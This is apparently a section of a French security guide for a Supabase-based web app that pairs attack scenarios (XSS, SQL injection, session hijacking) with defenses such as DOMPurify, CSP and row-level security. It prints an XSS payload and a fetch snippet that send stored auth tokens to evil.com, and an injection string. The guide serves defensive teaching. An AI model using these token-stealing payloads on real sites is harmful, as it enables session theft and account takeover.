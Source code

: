
## 🎯 Scénarios d'attaque et défenses

### Scénario 1 : XSS (Cross-Site Scripting)

**Attaque** :
```javascript
// Attaquant injecte dans un champ de commentaire
<img src=x onerror="fetch('https://evil.com/steal?token='+localStorage.getItem('token'))">
```

**Défense** :
```typescript
// ✅ Sanitization stricte
import DOMPurify from 'dompurify';

const cleanInput = DOMPurify.sanitize(userInput);

// ✅ CSP bloque l'exécution de scripts inline
// ✅ Utiliser textContent au lieu de innerHTML
element.textContent = userInput; // Pas d'exécution de HTML
```

### Scénario 2 : SQL Injection (via Supabase)

**Attaque** :
```javascript
// Tentative d'injection
const email = "admin'--";
await supabase.from('profiles').select('*').eq('email', email);
```

**Défense** :
```sql
-- ✅ Supabase utilise des prepared statements (protégé)
-- ✅ RLS empêche l'accès non autorisé
-- ✅ Validation stricte des inputs côté frontend ET backend
```

### Scénario 3 : Session Hijacking

**Attaque** :
```javascript
// Vol du JWT token via XSS
const token = localStorage.getItem('supabase.auth.token');
fetch('https://evil.com/steal', { method: 'POST', body: token });
```

**Défense** :
```typescript
// ✅ CSP empêche XSS
// ✅ HttpOnly cookies (Supabase utilise localStorage, mais avec refresh tokens courts)
// ✅ JWT expiration courte (1h par défaut)
// ✅ Refresh token rotation
```
